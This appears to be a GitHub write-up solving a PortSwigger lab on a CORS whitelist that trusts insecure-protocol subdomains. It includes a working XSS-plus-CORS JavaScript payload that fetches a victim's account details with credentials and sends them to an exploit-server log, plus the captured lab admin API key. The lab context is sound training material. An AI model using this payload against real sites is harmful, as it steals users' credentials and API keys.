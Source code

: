 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/f8048c24-4829-49f9-a33b-099e109022d8)

### Solution

When we give Origin: hacked.com or Origin: null , we don't see any ACAO header in the response.

But when we give Origin : "http://subdomain.lab-domain.com" we get the Access-Control-Allow-Origin in the response. [Note that we gave http instead of https]

So if we provide subdoamin of the website along with http insecure protocol, we are able to bypass the whitelist.

another way around to steal Administrator's API keys is by exploiting an XSS vulnearbility.

When we click on checkstock, we are taken to a new tab to display the result.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/0ffd5841-b099-4a1c-9fac-36e95fed4983)

payload 

```js
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Deliver the exploit to victim & view AccessLog , there we will find the API key of admin in the URL portion.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/57ea5c9b-8e57-4dfc-b613-e76f66585c5b)

api key is `aN2CHsugpO4PiEhwqJkZ7S8M6UglwYEw`

submit the solution and lab is solved

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/64c8b426-754a-4c55-8123-ed51723b66f4)

